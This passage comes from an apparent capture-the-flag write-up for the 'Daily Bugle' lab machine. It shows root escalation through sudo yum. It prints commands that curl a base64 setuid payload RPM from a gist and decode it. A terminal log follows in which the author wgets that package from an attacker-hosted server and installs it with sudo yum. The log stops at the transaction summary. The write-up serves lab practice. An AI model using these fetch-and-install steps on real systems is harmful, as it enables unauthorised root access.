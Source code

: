 The page says we need to make sure to save it as

```sh
# Again, be sure to save as .txt  
cat *.txt |base64 -d|gzip -d > debsploit.deb
```

Looking around a bit more I saw [this other post](https://evi1ox.github.io/post/%E6%BB%A5%E7%94%A8sudo%E5%AF%BC%E8%87%B4%E7%9A%84%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87/)



```sh
curl -sfL https://gist.githubusercontent.com/neoice/797777cb0832f596a70b6cba7bbbcc4f/raw/f3f94e105c23d2c01706736d9cd729dd555e9c53/setuid-pop.rpm | base64 -d | gzip -d> yumsploit.rpm

```

trying to run this on the remote machine seems to be failing, we'll generate the payload rpm locally(which means just run that command and serve in our local HTTP server the yumsploit.rpm file)

Then we just do wget to upload that file and will try to install it with **sudo yum localinstall yumsploit.rpm** and hope for the best:

```sh
──(kali㉿kali)-[~/Documents/THM/dailyBugle]
└─$ ssh jjameson@10.10.61.166                                                                                             1 ⨯
jjameson@10.10.61.166's password: 
Last login: Fri Aug 28 21:48:55 2020
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ wget http://10.13.0.34:8000/yumsploit.rpm
--2020-08-28 21:51:03--  http://10.13.0.34:8000/yumsploit.rpm
Connecting to 10.13.0.34:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8267 (8.1K) [application/x-redhat-package-manager]
Saving to: ‘yumsploit.rpm’

100%[====================================================================================>] 8,267       --.-K/s   in 0.003s  

2020-08-28 21:51:04 (2.79 MB/s) - ‘yumsploit.rpm’ saved [8267/8267]

[jjameson@dailybugle ~]$ sudo yum localinstall yumsploit.rpm
Loaded plugins: fastestmirror
Examining yumsploit.rpm: sploit-1.0-1.x86_64
Marking yumsploit.rpm to be installed
Resolving Dependencies
--> Running transaction check
---> Package sploit.x86_64 0:1.0-1 will be installed
--> Finished Dependency Resolution

Dependencies Resolved

==============================================================================================================================
 Package                      Arch                         Version                     Repository                        Size
==============================================================================================================================
Installing:
 sploit                       x86_64                       1.0-1                       /yumsploit                       8.5 k

Transaction Summary
==============================================================================================================================
```